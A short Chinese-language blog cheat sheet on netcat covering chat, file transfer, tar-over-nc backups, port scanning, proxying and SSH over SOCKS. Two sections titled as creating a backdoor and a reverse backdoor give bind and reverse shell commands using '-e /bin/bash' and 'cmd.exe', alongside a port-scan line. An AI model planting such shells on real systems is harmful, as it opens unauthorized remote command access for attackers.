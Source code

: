 # nc使用 - Emmoblin Blog

Chat
```
# 发送端
nc -l 3333
# 接受端
nc 127.0.0.1 3333
```

传送文件
```
# 发送端  
`cat backup.iso | nc -l 3333`  
# 接收端  
`nc 192.168.0.1 3333 > backup.iso`  
```

  
显示传送进度，可以使用管道监控,pv命令  
```
`cat backup.iso | pv -b | nc -l 3333`  
`nc 192.168.0.1 3333 | pv -b > backup.iso`  
```

  
本地打包文件，传送到远端  
```
`tar -czf - /etc/ | nc -l 3333`  
`nc 192.168.0.1 3333 | pv -b > mybackup.tar.gz`  
```

端口扫描
```
扫描端口，并返回相关信息
nc -z 192.168.0.1 80-90
```

如何正确的加密聊天
```
nc -l 3333
ssh  yantze@192.168.2.38 sleep 1; nc 127.0.0.1 3333
```

如何正确的创建后门
```
nc -l 3333 -e /bin/bash
nc -l 3333 -e cmd.exe
nc 127.0.0.1 3333
```

如何逆向后门
```
nc -l 3333
nc 127.0.0.1 3333 -e /bin/bash
```

指定代理方式
>Connect to port 42 of host.example.com via an HTTP proxy at 10.2.3.4, port 8080.  This example could also be used by ssh(1); see the ProxyCommand directive in ssh_config(5) for more information.
```
nc -x10.2.3.4:8080 -Xconnect host.example.com 42
```

ssh over socks
```
ssh -o ProxyCommand='/usr/bin/nc -x 127.0.0.1:1080 %h %p' -i "xxx.pem" user@host
```



## 资料
- https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf
- http://www.g-loaded.eu/2006/11/06/netcat-a-couple-of-useful-examples/
- https://dragula.viettug.org/blogs/263.html
